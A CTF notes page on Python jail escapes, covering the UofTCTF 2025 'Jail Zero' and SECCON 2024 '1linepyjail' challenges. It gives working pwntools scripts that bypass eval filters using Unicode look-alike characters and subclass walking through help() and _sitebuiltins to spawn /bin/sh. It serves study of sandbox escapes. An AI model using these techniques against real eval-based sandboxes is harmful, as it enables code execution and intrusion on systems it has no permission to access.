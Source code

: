 # Python jail

References:

- [Pyjail Cheatsheet](https://shirajuki.js.org/blog/pyjail-cheatsheet/)

## WHY2025 CTF TitleCase

Visit [here](../2025-08-08-why2025/misc/title-case.md).

## FortID CTF 2025 Michael Scottfield

Visit [here](../2025-09-12-fortid-ctf-2025/michael-scottfield.md)

## UofTCTF 2025 Jail Zero

```python
def check(code):
    # no letters
    alphabet = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ"
    # no numbers
    numbers = "0123456789"
    # no underscores
    underscore = "__"
    
    return not any((c in alphabet) or (c in numbers) or (underscore in code) for c in code)

def safe_eval(code):
    if (check(code)):
        g = {'__builtins__': None}
        l = {'__builtins__': None}
        return print(eval(code, g, l )) # good luck!
    else:
        print("lol no")
        
code = input(">>> ")
safe_eval(code)
```

Filters:

1. no alphabetic: use [Unicode Block “Mathematical Alphanumeric Symbols”](https://www.compart.com/en/unicode/block/U+1D400) to bypass
2. no numbers: use `(''=='')` as 1
3. no double underscores: use [FULLWIDTH LOW LINE](https://unicode-explorer.com/c/FF3F)
4. no builtins: use `().__class__.__base__.__subclasses__()`

Then, we can use existing way to get to `code.InteractiveConsole().interact()`:

1. Locate `<class '_sitebuiltins._Helper'>` and `<class '_sitebuiltins._Printer'>` in `().__class__.__base__.__subclasses__()`
2. Call `help()` via `<class '_sitebuiltins._Helper'>` and load `code` module in help() system
3. Locate `sys` module via `<class '_sitebuiltins._Printer'>.__init__.__globals__`
4. Execute `sys.modules["code"].InteractiveConsole().interact()`

Attack script:

```python
from pwn import *

context(log_level="debug")


# unicode bypass helper
def transform(text):
    encoded = ""
    # full width low line
    underscore = chr(0xFF3F)
    text = text.replace("__", "_" + underscore)
    for ch in text:
        if ch.isalpha():
            if ch >= "a" and ch <= "z":
                encoded += chr(ord(ch) + 0x1D41A - ord("a"))
            elif ch >= "A" and ch <= "Z":
                encoded += chr(ord(ch) + 0x1D400 - ord("A"))
            else:
                assert False
        else:
            encoded += ch
    print("before", text)
    print("after", encoded)
    return encoded


# step 1. locate Helper and Printer
p = process(["python3", "chal.py"])
p.recvuntil(b">>> ")
p.sendline(transform("().__class__.__base__.__subclasses__()").encode())
res = p.recvline().decode()

helper_index = res.split(", ").index("<class '_sitebuiltins._Helper'>")
printer_index = res.split(", ").index("<class '_sitebuiltins._Printer'>")
print("Helper", helper_index)
print("Printer", printer_index)

# A is 10, B is 100

true = "(''=='')"
ten = "+".join([true] * 10)


def get_index(index):
    parts = (
        [true] * (index % 10) + ["A"] * (index // 10 % 10) + ["B"] * (index // 100 % 10)
    )
    return "+".join(parts)


# H for index of helper
helper = get_index(helper_index)
print(helper)


# find help text of helper
p = process(["python3", "chal.py"])
p.recvuntil(b">>> ")
p.sendline(
    transform(
        f"[A:={ten},B:=A*A,H:={helper},S:=().__class__.__base__.__subclasses__()[H].__doc__]"
    ).encode()
)
help_text = eval(p.recvline().decode())[-1]

# P for index of printer

printer = get_index(printer_index)
print(printer)


# synthesize "sys" and "code"
def synthesize(text):
    res = []
    for ch in text:
        index = help_text.index(ch)
        res.append("S[" + get_index(index) + "]")
    return "+".join(res)


p = process(["python3", "chal.py"])
p.recvuntil(b">>> ")
p.sendline(
    transform(
        f"[A:={ten},B:=A*A,H:={helper},P:={printer},S:=().__class__.__base__.__subclasses__()[H].__doc__,"
        # step 2. call help()
        + f"().__class__.__base__.__subclasses__()[H]()(),"
        # step 3. locate sys module
        + f"M:=().__class__.__base__.__subclasses__()[P].__init__.__globals__[{synthesize('sys')}],"
        # step 4. call sys.modules["code"].InteractiveConsole().interact()
        + f"M.modules[{synthesize('code')}].InteractiveConsole().interact()]"
    ).encode()
)
p.recvuntil(b"help> ")
# step 2. load code module in help() system
p.sendline(b"code")
p.sendline(b"quit")
p.sendline(b"import os")
p.sendline(b'os.system("/bin/sh")')
p.interactive()
```

## SECCON 2024 Quals 1linepyjail

```python
print(eval(code, {"__builtins__": None}, {}) if len(code := input("jail> ")) <= 100 and __import__("re").fullmatch(r'([^()]|\(\))*', code) else ":(")
```

Requirements:

1. Length <= 100
2. Allow `()` but no parameters
3. No builtins: Use `().__class__.__base__.__subclasses__()`

Steps:

1. Locate `<class '_sitebuiltins._Helper'>` and `<class '_sitebuiltins._Printer'>` in `().__class__.__base__.__subclasses__()`
2. Call `help()` via `<class '_sitebuiltins._Helper'>` and load `pdb` module in help() system
3. Locate `sys` module via `<class '_sitebuiltins._Printer'>.__init__.__globals__` and execute `sys.modules['pdb'].set_trace()`

Attack script:

```python
from pwn import *

context(log_level="debug")

# step 1. locate Helper and Printer
p = process(["python3", "jail.py"])
p.recvuntil(b"jail>")
p.sendline("().__class__.__base__.__subclasses__()".encode())
res = p.recvline().decode()

helper_index = res.split(", ").index("<class '_sitebuiltins._Helper'>")
printer_index = res.split(", ").index("<class '_sitebuiltins._Printer'>")
print("Helper", helper_index)
print("Printer", printer_index)

# step 2. call help() to load pdb module
p = process(["python3", "jail.py"])
p.recvuntil(b"jail>")
p.sendline(
    (
        f"().__class__.__base__.__subclasses__()[{helper_index}]()()"
    ).encode()
)
# load pdb and return to jail
p.sendline(b"pdb")
p.sendline(b"jail")
p.recvuntil(b"jail>")
# step 3. locate sys module and call `sys.modules['pdb'].set_trace()`
p.sendline(
    (
        f"().__class__.__base__.__subclasses__()[{printer_index}].__init__.__globals__['sys'].modules['pdb'].set_trace()"
    ).encode()
)
# in pdb
p.recvuntil(b"(Pdb) ")
p.sendline(
    (
        f"().__class__.__base__.__subclasses__()[{printer_index}].__init__.__globals__['sys'].modules['os'].system('/bin/sh')"
    ).encode()
)
p.interactive()
```
